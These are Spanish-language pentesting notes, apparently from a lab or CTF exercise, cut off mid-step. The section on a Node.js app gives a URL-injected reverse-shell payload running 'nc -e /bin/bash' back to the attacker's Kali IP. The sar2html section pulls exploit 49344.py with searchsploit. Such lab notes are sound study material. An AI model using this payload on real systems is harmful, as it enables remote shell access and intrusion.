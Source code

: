 -Ubuntu Core: Una versión minimalista de la edición de servidor                               de Ubuntu

El lenguaje predeterminado y más utilizado para la programación de Raspberry Pi es Python. 

-------------------------------------------------------------------------------

12.- Node.js 

5000/tcp open  http  Node.js (Express middleware)

al acceder a la web por el puerto 5000

me aparece un input para ingresar texto

yo ingreso por ejemplo Daniel

http://192.168.42.159:5000/?name=daniel&token=47421671

le cambiamos el token por cualquier cosa por ejemplo asdasd

me aparece un error, entonces aplicamos lo siguiente

nodejs reverse shell, introducirlo por url

require('child_process').exec('nc -e /bin/bash IP-KALI 443')

nos ponemos en escucha con netcat por el puerto 443 y listo

13.- sar2html 3.2.1

sar2html 3.2.1 es una herramienta utilizada para convertir los archivos de datos generados por la utilidad sar (System Activity Report) de Linux en un formato HTML visualmente más amigable y fácil de interpretar. sar es una herramienta que recoge y reporta estadísticas de rendimiento del sistema, como el uso de CPU, memoria, disco, y más. Estos informes suelen ser bastante técnicos y se presentan en un formato de texto que puede ser difícil de interpretar para algunos usuarios.

sar2html se encarga de tomar esos archivos generados por sar (que generalmente tienen extensión .sar o .data) y los convierte en informes en formato HTML que pueden ser visualizados en un navegador. Esto facilita la interpretación y análisis de las estadísticas del sistema de forma más visual.

Características principales de sar2html:
Conversión de SAR a HTML: Transforma los datos del comando sar en informes de HTML con gráficos y tablas.

Visualización de estadísticas: Permite ver el rendimiento del sistema con gráficos sobre el uso de CPU, memoria, disco, y otras métricas clave.

Fácil acceso y análisis: Los informes en HTML permiten que se pueda acceder fácilmente desde cualquier navegador sin necesidad de interpretar los datos brutos de sar.

Compatibilidad con versiones anteriores de SAR: Funciona con los archivos generados por el comando sar en diversas versiones de Linux.

Este software tiene un exploit

lo descargamos:

searchsploit -m php/webapps/49344.py

lo ejecutamos
